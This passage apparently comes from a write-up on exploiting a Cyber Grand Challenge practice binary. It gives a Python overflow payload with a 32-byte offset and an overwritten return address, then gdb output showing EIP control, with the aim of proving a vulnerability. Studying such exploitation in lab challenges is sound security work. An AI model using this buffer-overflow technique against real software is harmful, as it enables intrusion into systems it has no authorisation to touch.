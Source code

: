 ```
1094789441 found at offset: 32
```


What address to give this instruction? Does it matter? Maybe maybe not. I choose 0xbaaaaed0, a stack address, not for any reason really. I just thought I'd try that in a hurry and we can see it was kind enough to work:


```
vagrant@crs:~/LEGIT_00003$ uname -a
Linux crs 3.13.11-ckt21-cgc #1 SMP Mon Feb 29 16:42:11 UTC 2016 i686 GNU/Linux
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*20'
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��BBBBBBBBBBBBBBBBBBBB
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*20' > badstr.txt 
vagrant@crs:~/LEGIT_00003$ gdb -q ./legit_00003 
Reading symbols from ./legit_00003...(no debugging symbols found)...done.
gdb-peda$ r < badstr.txt 
Starting program: /home/vagrant/LEGIT_00003/legit_00003 < badstr.txt

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x30 ('0')
EBX: 0x0 
ECX: 0xbaaaae41 --> 0x41414100 ('')
EDX: 0xbaaaae42 ('A' <repeats 31 times>, "Ю\252\272", 'B' <repeats 12 times>)
ESI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
0004| 0xbaaaaf40 --> 0x2 
0008| 0xbaaaaf44 --> 0xa ('\n')
0012| 0xbaaaaf48 --> 0x0 
0016| 0xbaaaaf4c --> 0x0 
0020| 0xbaaaaf50 --> 0x0 
0024| 0xbaaaaf54 --> 0x0 
0028| 0xbaaaaf58 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```


Ok so we know what will give us EIP control and to be a valid PoV we also must demonstrate control of at least one other register from this list:

  1. eax
  2. ecx
  3. edx
  4. ebx
  5. esp
  6. ebp
  7. esi
  8. edi
